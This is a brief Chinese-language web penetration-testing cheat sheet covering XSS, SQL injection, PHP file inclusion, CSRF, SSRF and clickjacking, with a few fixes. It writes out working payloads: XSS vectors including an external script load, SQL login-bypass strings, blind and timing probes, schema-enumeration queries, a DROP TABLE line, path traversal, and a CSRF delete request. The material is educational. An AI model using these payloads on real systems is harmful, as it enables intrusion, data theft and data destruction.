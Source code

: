 
## 分析工具:
`burpsuite` 抓包 改包

`nmap ncat` 掃port 測port

`whois` and `theharvester` OSINT

`python` 不用多說

`sqlmap` 不用多說

還有瀏覽器的 `F12(Developer tools)` (超級有用!)
### #別當 script kiddy!!


## 常見漏洞

### XSS(Cross Site Scripting)

#### Attacking Vectors
##### 基本
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`

`<a id=x tabindex=1 onbeforeactivate=alert(1)></a>`

`<audio src/onerror=alert(1)>`

`<body onpageshow=alert(1)>`

`<body onresize=alert(1)`

and more on [portswigger.net](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

#### Fixing
escape html字元

### SQL 注入

#### Attacking Vectors
##### 檢查是否有漏洞
Common vectors like

`'` and `ORDER BY 1`

Blind-Injections to check without debug info

`' AND 1=1 ` (true) `' AND 1=2 ` (false)

Timing attack

`BENCHMARK(878787878787, ('hey', 'you'))`

##### 註解掉後面的query
`DROP TABLE1; --`

or

`DROP TABLE1; #`
##### Login bypass
用 `'` 和 `--` 來閉合引號和註解

##### 萬用密碼
`admin 'or'1'='1`

密碼亂打，bypass

如果檢查sql injection則:

`admin '--`
##### Common Vectors(MySQL for example)
`SELECT user();`

`SELECT user FROM mysql.user;`

`SELECT distinct(db) FROM mysql.db `

`SELECT schema_name FROM information_schema.schemata; (for MySQL >= v5.0)`

`SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’`

`SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’`

##### !No `information_schema` in MySQL < 5!

#### Fixing
預編譯SQL語句

### PHP-Include (上傳漏洞)
PHP 的 include(), require(), include_once(), require_once()可供利用

#### Attacking Vectors
##### file_put_contents寫入
直接

`file_put_contents('path', content')`

##### php偽協議
`data:text/html;ascii, ........`

也可以base64

##### 本地包含(LFI)
透過改包，可以讀取檔案

##### 其他
`../../`上層目錄

用編碼繞防火牆

POST Data 也可以注入payload

### CSRF (Cross-Site-Request-Forgery)
#### Attacking Vectors
將siteB的元素注入到siteA:

`<img src = http://www.siteb.com/blog.php?action=delete></img>`

#### Fixing
檢查referer

captcha

csrf token(保存在server的session裡面，隨機產生)

### SSRF (Server-Side-Request-Forgery)
很像csrf，但是用來訪問內網的server


### ClickJacking

插一個透明的frame，直接設定成網頁大小，無論如何使用者都會點擊到frame的內容
